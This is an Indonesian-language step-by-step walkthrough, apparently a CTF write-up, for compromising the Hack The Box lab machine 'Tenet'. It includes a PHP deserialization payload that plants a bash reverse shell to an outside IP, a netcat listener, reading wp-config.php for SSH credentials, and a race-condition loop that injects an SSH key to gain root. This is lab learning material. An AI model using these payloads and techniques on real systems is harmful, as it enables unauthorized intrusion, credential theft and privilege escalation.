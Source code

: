 1. nmap
2. buka tenet.htb
3. cek semua post > dari awal
4. di post kedua > ada info kalau database disimpan dalam sebuah file. Dan ada sebuah file sator.php dan backup-annya
5. sator.tenet.htb > tampilan default apache
6. sator.tenet.htb/sator.php
7. sator.tenet.htb/sator.php.bak
8. pakai curl aja
9. buat file rce.php > nano rce.php
10. isi dari rce.php
<?php

class DatabaseExport {
public $user_file ='rce.php';
public $data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.159/1234 0>&1\'") ?>';
}

print urlencode(serialize(new DatabaseExport))

?>

11. save file > jalankan php rce.php. Ini akan dimasukkan ke paramater bernama arepo
12. sator.tenet.htb/sator.php?arepo=xxxxx
13 jalankan listner > rlwrap nc -lvp 1234
14. curl http://sator.tenet.htb/rce.php
15. Nanti akan didapatkan shell
16. upgrade shell
17. python3 -c "import pty;pth.spawn('/bin/bash')"
18. stty raw -echo
19. export TERM=xterm
20. cd wordpress
21. cat wp-config.php > ada username + password untuk SSH
22. ssh dulu


23. id
24. sudo -l
25. cat /usr/bin/.....
26. ada key, merupakan kunci publik ssh
27. pada addkey terdapat celah yang bisa kita manfaatkan
28. ls /tmp
29. rm /tmp/ssh* > remove semua file ssh

30. buat ssh > ssh-keygen > id_rsa
31. cat id_rsa.php
32. copy isinya ke sistem
33. (di sistem) while true; do echo "xxxxxx" | tee /tmp/ssh* > /dev/null; done& (dijalankan sebagai background)
34. sudo -l
35. jalankan binary nya
36. sudo /usr/....
37. jalankan terus sampek bisa
38. Jika sudah sukses, coba ssh saja
39. ssh root@10.10.10.223 -i id_rsa
40. tinggal pindah ke root
